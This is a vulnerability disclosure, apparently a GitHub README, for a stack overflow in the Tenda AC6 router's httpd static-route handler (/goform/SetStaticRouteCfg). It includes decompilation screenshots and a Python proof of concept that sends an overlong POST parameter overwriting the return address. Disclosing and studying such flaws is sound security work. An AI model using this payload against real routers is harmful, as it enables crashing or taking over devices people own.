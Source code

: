 # static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html

#### Describe

  In Tenda AC6 ,firemware is US_AC6V1.0BR_V15.03.05.16_multi_TD01 ,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail

<img src="./img/image-20210917120859736.png" alt="image-20210917120859736" style="zoom:50%;" />

follow up sub_77EC8

<img src="./img/image-20210917121019246.png" alt="image-20210917121019246" style="zoom:50%;" />

<img src="./img/image-20210917123041024.png" alt="image-20210917123041024" style="zoom:50%;" />

 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 

<img src="./img/image-20210917121219712.png" alt="image-20210917121219712" style="zoom:50%;" />



<img src="./img/image-20210917121127321.png" alt="image-20210917121127321" style="zoom:50%;" />



POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```



